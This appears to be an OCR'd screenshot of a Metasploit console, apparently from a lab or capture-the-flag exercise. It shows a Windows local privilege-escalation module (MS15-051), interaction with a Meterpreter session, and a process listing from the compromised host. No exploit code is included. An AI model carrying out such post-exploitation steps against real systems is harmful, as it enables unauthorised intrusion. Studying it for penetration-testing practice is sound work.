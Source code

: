```
[msf](Jobs:0 Agents:1) exploit(windows/local/ms15_051_client_copy_image) >> sessions -i 1
[*] Starting interaction with 1...

(Meterpreter 1)(c:\Documents and Settings) > ps

Process List
============

 PID   PPID  Name               Arch  Session  User                          Path
 ---   ----  ----               ----  -------  ----                          ----
 0     0     [System Process]
 4     0     System
 272   4     smss.exe
 320   272   csrss.exe
 344   272   winlogon.exe
 392   344   services.exe
 404   344   lsass.exe
 584   392   svchost.exe
 668   392   svchost.exe
 732   392   svchost.exe
 772   392   svchost.exe
 788   392   svchost.exe
 924   392   spoolsv.exe
 952   392   msdtc.exe
 1064  392   cisvc.exe
 1112  392   svchost.exe
 1168  392   inetinfo.exe
 1204  392   svchost.exe
 1216  1064  cidaemon.exe
 1260  1064  cidaemon.exe
 1312  392   VGAuthService.exe
 1376  392   vmtoolsd.exe
 1484  392   svchost.exe
 1588  392   svchost.exe
 1672  1064  cidaemon.exe
 1768  392   dllhost.exe
 1936  392   alg.exe
 1964  584   wmiprvse.exe       x86   0        NT AUTHORITY\NETWORK SERVICE  C:\WINDOWS\system32\wbem\wmiprvse.exe
 2040  1484  w3wp.exe           x86   0        NT AUTHORITY\NETWORK SERVICE  c:\windows\system32\inetsrv\w3wp.exe
 2112  584   davcdata.exe       x86   0        NT AUTHORITY\NETWORK SERVICE  C:\WINDOWS\system32\inetsrv\davcdata.exe
 2408  584   wmiprvse.exe
 2440  2040  rundll32.exe       x86   0                                      C:\WINDOWS\system32\rundll32.exe
 3068  584   davcdata.exe
 3152  1484  w3wp.exe
 3360  344   logon.scr

```
